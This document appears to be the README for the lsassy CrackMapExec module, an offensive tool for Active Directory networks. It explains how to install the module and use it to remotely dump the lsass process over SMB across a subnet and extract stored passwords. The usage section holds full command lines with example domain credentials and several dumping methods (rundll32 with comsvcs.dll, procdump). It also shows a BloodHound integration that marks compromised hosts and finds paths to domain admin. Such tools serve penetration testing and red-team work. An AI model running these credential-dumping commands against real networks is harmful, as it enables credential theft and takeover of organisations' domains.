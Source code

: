 # lsassy CrackMapExec Module

![CrackMapExec >= 5.0.0](https://img.shields.io/badge/CrackMapExec-%3E=5.0.0-red)

This CME module uses **lsassy** to remotely extract lsass password, and optionally interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](https://github.com/Hackndo/lsassy/raw/master/assets/example_cme.png)

## Requirements

* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Install **lsassy**

### Python 3

* Download [lsassy CrackMapExec module](https://raw.githubusercontent.com/Hackndo/lsassy/master/cme/lsassy.py)
* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Reinstall CrackMapExec using python 3 `python setup.py install`

```bash
python -m pip install lsassy
wget https://raw.githubusercontent.com/Hackndo/lsassy/master/cme/lsassy.py
cp lsassy.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python setup.py install
```

### Python 2 (No support)

* Download [lsassy CrackMapExec module](https://raw.githubusercontent.com/Hackndo/lsassy/master/cme/lsassy_py2.py)
* Copy `lsassy_py2.py` in `[CrackMapExec Path]/cme/modules`
* Reinstall CrackMapExec using python 2.7 `python2.7 setup.py install`

```bash
python3 -m pip install lsassy
wget https://raw.githubusercontent.com/Hackndo/lsassy/master/cme/lsassy_py2.py
cp lsassy_py2.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python2.7 setup.py install
```

## Usage

### Basic

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

### Advanced

By default, this module uses `rundll32.exe` with `comsvcs.dll` DLL to dump lsass process on the remote host, with method **1** of lsassy.

If you want to specify the dumping method, use the `METHOD` option (`lsassy -h` for more details)

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=3
```

If you're using a method that requires procdump, you can specify procdump location with `PROCDUMP_PATH` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=2 PROCDUMP_PATH=/opt/Sysinternals/procdump.exe
```

By default, lsass dump name is randomly generated. If you want to specify a dump name, you can use `REMOTE_LSASS_DUMP` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o REMOTE_LSASS_DUMP=LSASSY_DUMP.dmp
```

### BloodHound

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables different checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            METHOD              Method to use to dump procdump with lsassy. See lsassy -h for more details
            REMOTE_LSASS_DUMP   Name of the remote lsass dump (default: Random)
            PROCDUMP_PATH       Path to procdump on attacker host. If this is not set, "rundll32" method is used
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')
            WITHOUT_EDGES       List of black listed edges (example: 'SQLAdmin,CanRDP', default: '')

```

## Issue

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

Have fun
